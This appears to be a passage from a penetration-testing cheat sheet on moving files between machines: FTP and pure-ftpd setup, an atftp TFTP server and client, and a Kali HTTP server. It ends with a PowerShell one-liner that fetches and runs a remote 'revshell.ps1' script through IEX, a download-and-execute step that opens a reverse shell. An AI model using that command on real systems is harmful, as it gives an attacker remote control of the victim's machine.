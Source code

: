 	``` bash
	ftp -v -n -s:ftp.txt
	```

=== "setup-ftp.sh"

	``` bash
	groupadd ftpgroup
	useradd -g ftpgroup -d /dev/null -s /etc ftpuser
	pure-pw useradd hades -u ftpuser -d /ftphome
	pure-pw mkdb
	cd /etc/pure-ftpd/auth/
	ln -s ../conf/PureDB 60pdb
	mkdir -p /ftphome
	chown -R ftpuser:ftpgroup /ftphome/
	systemctl restart pure-ftpd
	```

### TFTP

Server

``` bash
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

Checking running service

``` bash
$ getent services tftp
tftp                  69/udp
```

Client

``` bash
tftp -i ip put test.txt
```

## Windows

### PowerShell

Kali machine

``` bash
sudo python3 -m http.server 80
```

Executing a remote PowerShell script

``` bash
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://ip/revshell.ps1')
```
